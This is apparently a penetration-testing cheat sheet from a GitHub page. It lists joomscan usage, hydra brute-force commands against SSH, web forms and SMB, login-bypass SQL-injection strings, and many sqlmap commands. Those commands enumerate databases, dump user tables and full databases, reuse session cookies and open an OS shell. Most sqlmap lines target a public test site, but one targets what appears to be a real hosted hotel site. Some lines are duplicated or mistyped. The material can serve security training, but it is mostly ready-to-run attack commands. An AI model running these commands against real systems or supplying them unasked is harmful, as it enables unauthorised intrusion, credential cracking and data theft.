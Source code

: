 #### Joomla
https://github.com/OWASP/joomscan

joomscan update
joomscan check
joomscan -u http://www.joomla.org

### Bruteforce

**SSH**
hydra ssh://127.0.0.1:22222 -L /home/wordlist.txt -P wordlist.txt -V

**Form**
`hydra -L [user] -P [password] [IP] http-post-form "/:usernam=^USER^ & password=^PASS^:F=inc`

**SMB**
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb

### SQLi

```
1 OR 1 = 1 #A 
1 OR ANY TEXT
```

**Manual SQL Injection**
`in login page enter blah' or 1=1-- as username and click login without entering the password`

**GET access of OS Shell =**
`sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell`

sudo sqlmap --update
sqlmap -u "------/id=1" --dbs --batch
sqlmap -u "https://bliss-hotel.000webhostapp.com/room_details.php?room_type_id=RM101" --dbs --batch
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

sqlmap -u http://site/viewprofile.aspx?id=1 --cookie="teste=12wqad..." --bath --dbs


in login page enter blah' or 1=1-- as username and click login without entering the password

sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
   
sqlmap -u “address” --cookie=<”cookie values”> --dbs
  
sqlmap -u “address” --cookie=<”cookie values”> -D --tables
  
sqlmap -u “http://www.demosql.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D -T --columns   

sqlmap -u “http://www.demosql.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D -T--dump

sqlmap -u “http://www.demosql.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> --os-shell
